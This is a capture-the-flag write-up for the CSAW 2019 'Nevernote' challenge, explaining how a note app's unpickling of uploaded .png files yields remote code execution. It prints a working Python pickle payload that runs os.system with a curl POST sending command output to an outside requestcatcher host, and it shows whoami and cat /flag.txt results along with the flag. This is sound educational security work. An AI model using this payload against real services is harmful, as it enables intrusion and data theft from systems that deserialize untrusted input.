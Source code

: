 <img src="/assets/2019-10-01-RED-CSAW19-NevernotePickle/images/image4.png"> <br>

*Never unpickle data received from an untrusted source*

Basically our Note object will be instantiated, and the file name will be the hash it creates + .png at the end. Then our object hits the save_note() function which saves it TWICE, once with a .pickle extension and the it saves only the image with the .png extension. Meaning our images goes through the unpickle function as is, we can have the server unpickle whatever we want! Meaning we can pickle commands and have them executed on the server.

So we need a pickled payload, that saves onto the server, then we make a get request to our .png image, that will hit the unpickle function in the code and get RCE.

I wrote an exploit that accepts a command, and makes a POST request to requestcatcher (https://requestcatcher.com/) with the the data its sending being the command!
Then it pickles the object and saves it to a .png file.


```python
import cPickle
import os
import sys

class makePayload(object):
    def __reduce__(self):
        command = "curl -X POST -d $(" + comm + ") https://saint.requestcatcher.com/nevernote"
        return (os.system, (command,))

comm = sys.argv[1]
payload = cPickle.dumps(makePayload())
badImage = open("bad.png", "w")
badImage.write(payload)
```

Let me demonstrate:

<img src="/assets/2019-10-01-RED-CSAW19-NevernotePickle/images/image5.png">

bad.png has been created, Then we can start up request catcher!

<img src="/assets/2019-10-01-RED-CSAW19-NevernotePickle/images/image6.png" width=400>

And now lets create a note with the bad.png

<img src="/assets/2019-10-01-RED-CSAW19-NevernotePickle/images/image7.png">

Now we need to remove the .pickle it is showing us and view the .png file, this is what will execute our code!

And done! Our png just executed the `whoami` command and we got a reply of 'chal'!

<img src="/assets/2019-10-01-RED-CSAW19-NevernotePickle/images/image8.png"><br><br>

Now lets do another one with `cat /flag.txt`!!


<img src="/assets/2019-10-01-RED-CSAW19-NevernotePickle/images/image9.png"><br>


Flag: `flag{you_had_to_have_known_this_flag_would_have_pickle_rick_in_it}`